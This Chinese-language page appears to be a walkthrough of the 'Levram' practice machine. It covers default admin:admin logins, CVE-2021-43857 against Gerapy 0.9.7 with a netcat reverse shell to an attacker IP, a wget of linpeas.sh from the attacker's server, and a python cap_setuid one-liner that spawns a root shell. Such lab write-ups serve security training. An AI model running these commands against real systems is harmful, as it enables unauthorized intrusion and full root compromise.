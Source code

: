 ```yaml
---
description: >-
  Easy - Linux / Gerapy 0.9.7 / CVE-2021-43857 / Capabilities提权 - cap_setuid
  python
---
```


# ✔️ Levram

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和8000

```bash
nmap -sC -sV -oA levram 192.168.124.24 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 检查8000端口上的内容，尝试弱口令登录成功： **admin : admin**

<figure><img src="../../.gitbook/assets/2 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 并发现了当前正在运行的程序及其版本号：**Gerapy v0.9.7**

<figure><img src="../../.gitbook/assets/3 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 枚举8000端口上的隐藏文件/目录，找到了/admin目录：

<figure><img src="../../.gitbook/assets/4 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在8000端口上的/robots.txt里的/admin目录对应上：

<figure><img src="../../.gitbook/assets/5 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

* 查看发现是Django Administration登录页面，使用弱口令登录成功：**admin:admin**

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

* 依次查看并无任何有用的收获：

<figure><img src="../../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据之前已获取到的正在运行的程序Gerapy v0.9.7，查找到了公开的可利用漏洞：

<figure><img src="../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 在GitHub上找到了可以直接利用的脚本，无需修改直接执行：

<figure><img src="../../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 执行cve-2021-43857.py：

```bash
python3 cve-2021-43857.py -u http://192.168.193.24:8000 -U admin -P admin -r 192.168.45.244 -p 4444
# 监听：
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获取到local.txt：

<figure><img src="../../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传linpeas.sh进行信息收集：

```bash
# Kali：
python3 -m http.server
# target：
wget http://192.168.45.244:8000/linpeas.sh
```

<figure><img src="../../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>

* 执行linpeas.sh：

```bash
chmod 777 linpeas.sh
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/16 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 从linpeas.sh的输出结果中得知Files with capabilities这一项的 **/usr/bin/python3.10 cap\_setuid=ep** 可被利用：

<figure><img src="../../.gitbook/assets/17 (1).png" alt=""><figcaption></figcaption></figure>

* 这是因为python 3.10作为可执行文件，被赋予了cap\_setuid的能力。在GTFOBins中找到了可利用的命令：

<figure><img src="../../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 先切换到/bin目录下，因为python在该目录下。然后执行以下命令即可提权到root权限：

```bash
cd /usr/bin
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

<figure><img src="../../.gitbook/assets/19 (1).png" alt=""><figcaption></figcaption></figure>

* 获取到proof.txt：

<figure><img src="../../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>
